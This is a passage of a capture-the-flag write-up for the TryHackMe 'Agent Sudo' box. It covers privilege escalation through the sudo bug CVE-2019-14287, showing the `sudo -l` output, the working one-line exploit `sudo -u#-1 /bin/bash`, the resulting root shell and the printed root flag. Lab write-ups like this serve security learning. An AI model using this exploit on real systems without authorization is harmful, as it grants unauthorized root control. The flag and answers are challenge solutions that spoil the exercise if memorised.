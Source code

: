 Let's look at what binaries have the

```
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

The users are not allowed to run `/bin/bash` as root. If we go to Exploit Database, we can find the CVE for this vulnerability.

![11](https://github.com/Knign/Write-ups/assets/110326359/e2554b6d-f078-4492-aa49-9213cbc9ddcc)

### Answer

```
CVE-2019-14287
```

&#x20;

### What is the root flag?

We can also find the exploit for this vulnerability on Exploit Database.

![12](https://github.com/Knign/Write-ups/assets/110326359/4267c425-95dd-4127-8b2f-922bcde624f6)

Let's enter that in the terminal.

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# 
```

We have successfully escalated out privilege to root.

Let's `cat` the root flag.

```
root@agent-sudo:/root# cd /root ; cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```
